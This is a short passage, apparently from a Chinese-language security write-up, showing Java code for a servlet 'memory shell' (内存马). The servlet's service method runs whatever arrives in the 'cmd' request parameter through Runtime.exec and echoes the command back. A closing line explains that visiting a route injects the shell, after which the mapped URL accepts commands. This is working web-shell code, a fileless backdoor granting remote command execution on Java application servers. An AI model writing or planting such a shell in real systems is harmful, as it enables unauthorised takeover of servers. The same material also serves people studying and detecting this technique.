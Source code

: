 ```java

            }

            @Override
            public ServletConfig getServletConfig() {
                return null;
            }

            @Override
            public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
                if (req.getParameter("cmd") != null) {
                    Runtime.getRuntime().exec(req.getParameter("cmd"));
                    res.getWriter().println("exec cmd with "+req.getParameter("cmd"));
                }else {
                    res.getWriter().println("shellServlet inject");
                }
            }

            @Override
            public String getServletInfo() {
                return null;
            }

            @Override
            public void destroy() {

            }
        };
}
}

```
![](2023-01-29-16-43-50.png)  
先访问该路由注入内存马后,访问映射的Url即可.  